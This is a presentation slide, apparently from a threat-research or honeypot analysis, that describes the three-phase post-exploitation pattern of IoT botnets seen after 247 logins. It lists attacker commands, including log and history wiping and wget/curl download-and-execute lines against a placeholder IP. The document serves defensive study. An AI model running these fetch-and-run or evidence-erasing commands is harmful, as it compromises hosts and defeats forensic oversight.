

Attack Lifecycle
Attack Methodology: Post-Exploitation

PHASE 1

PHASE 2

PHASE 3

Reconnaissance
Cleanup
Infection
Once authenticated, attackers immediately verify system resources and capabilities to assess the target's value and suitability for botnet recruitment.
Attackers systematically erase traces of intrusion to evade detection and forensic analysis, removing command history and log entries.
Final phase involves downloading and executing malicious payloads to convert the compromised host into a botnet node for DDoS attacks.

Common Commands
Evasion Techniques
Deployment Methods
uname -a
history -c
wget http://IP/malware
Kernel & architecture info
Clear bash history
HTTP payload retrieval
cat /proc/cpuinfo
rm -rf /var/log/lastlog
curl -O http://IP/malware
CPU specifications
Remove login records
Alternative download
df -h
unset HISTFILE
chmod +x malware
Disk space availability
Disable history logging
Set execution permissions
free -m
export HISTSIZE=0
./malware &
Memory utilization
Zero history buffer
Background execution
Duration: 5-15 seconds
Duration: 3-8 seconds
Duration: 10-30 seconds

Pattern Consistency: All 247 successful authentications followed this three-phase sequence with remarkable consistency, indicating standardized botnet automation scripts. The entire post-exploitation lifecycle completes in under 60 seconds, demonstrating the efficiency of modern IoT botnet operations.